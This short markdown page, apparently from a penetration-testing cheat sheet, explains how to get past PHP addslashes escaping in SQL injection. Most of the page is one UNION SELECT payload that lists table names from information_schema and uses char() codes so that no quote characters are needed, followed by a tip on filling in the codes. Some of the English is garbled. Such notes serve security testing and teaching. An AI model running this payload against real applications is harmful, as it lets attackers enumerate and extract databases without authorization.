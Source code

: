 ```yaml
---
description: When the application, adds a / on the final of URL
---
```


# SQLI | Bypass addslashes

**Context:** But in the "" in Warning, a /-> "/" is added

{% content-ref url="../vulnerabilities/sqli/sqli-or-error-based.md" %}
[sqli-or-error-based.md](../vulnerabilities/sqli/sqli-or-error-based.md)
{% endcontent-ref %}

```
union select 1,2,table_name,4,5 from information_schema.tables where table_schema=char(xxx,xxx,xxx,xxx) %23
```

**Note:** Change the xxx to the values ​​corresponding to the chars of the table name string
